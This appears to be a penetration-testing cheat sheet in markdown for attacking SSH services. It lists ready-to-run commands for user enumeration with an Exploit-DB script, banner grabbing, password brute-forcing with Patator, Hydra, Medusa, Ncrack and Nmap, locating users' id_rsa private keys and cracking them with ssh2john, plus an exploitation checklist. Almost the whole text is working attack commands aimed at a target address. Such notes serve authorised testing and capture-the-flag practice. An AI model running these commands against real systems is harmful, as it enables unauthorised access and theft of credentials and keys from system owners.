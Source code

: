 ### User enumeration

	python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $ip

### Banner grabbing

	nmap -sV -p T:22 $ip

### Vulnerable Versions

	7.2p1

### Connection

#### Connect to SSH

	ssh <user name>@$ip

#### Connect to SSH with private key
	ssh –i key <user name>@$ip

### Brute-force

#### Patator

	patator ssh_login host=$ip user=FILE0 0=user.txt password=FILE1 1=pass.txt

#### Hydra

Known username

	hydra -l root -P pass.txt $ip ssh -v -V -F

Username and password attack

	hydra -L user.txt -P pass.txt $ip ssh

#### Medusa

	medusa -h $ip -U user.txt -P pass.txt -M ssh

#### Ncrack

	ncrack –v –U user.txt –P pass.txt $ip:22

#### Nmap

	nmap -p 22 –script ssh-brute –script-args userdb=users.lst,passdb=pass.lst –script-args ssh-brute.timeout=4s $ip

### Path of id_rsa

	$user/.ssh/id_rsa
	$user/.ssh/authorized key

### Crack id_rsa

	/usr/share/john/ssh2john.py

### Configuration files

	ssh_config
	sshd_config
	authorized_keys
	ssh_known_hosts
	.shosts

### Exploitation
- Gather version numbers    
- Searchsploit
- Default Creds
- Creds previously gathered
- Download the software